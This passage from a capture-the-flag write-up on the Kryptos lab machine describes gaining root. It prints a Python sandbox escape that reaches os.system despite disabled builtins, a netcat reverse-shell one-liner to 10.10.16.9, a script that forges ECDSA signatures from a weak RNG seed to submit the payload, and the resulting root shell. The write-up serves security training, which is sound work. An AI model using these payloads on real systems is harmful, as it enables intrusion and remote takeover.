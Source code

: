 ```creds.txt``` is a VimCrypt02 file. This file has been encrypted with Blowfish, which is a block-cypher vulnerable from plain-text attacks as well. The file ```creds.old``` makes us suspect that ```creds.txt``` has the same structure, so we could know the first part of it, ```rijndael / ```. 
In the source code, it is possible to see that ```builtins``` are disabled. By Googling, we find out [how to bypass this countermeasure](https://stackoverflow.com/questions/35804961/python-eval-is-it-still-dangerous-if-i-disable-builtins-and-attribute-access) and [how to run actual code](https://www.floyd.ch/?p=584). We build our payload accordingly:

	[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('" + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 9119 >/tmp/f" + "')

So [our script](./resources/kryptos/break_signature_rce.py) will contain:

	seed = int(sys.argv[1])
    rand = secure_rng(seed) + 1
    sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
    vk = sk.get_verifying_key()
    expr = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('" + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 9119 >/tmp/f" + "')"
    req_data = { 'expr': expr, 'sig': sign(str.encode(expr)) }
    r = requests.post("http://127.0.0.1:81/eval", json=req_data)
    print r.text

So we setup a netcat listener and we run finally:

	root@pentestbox:~# python break_signature_rce.py 41205234917818974876430183060164741391
	
	root@pentestobx:~# nc -lnvp 9119
	listening on [any] 9119 ...
	connect to [10.10.16.9] from (UNKNOWN) [10.10.10.129] 55648
	/bin/sh: 0: can't access tty; job control turned off
	# whoami
	root
	# 

And we got root on Kryptos!


#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 

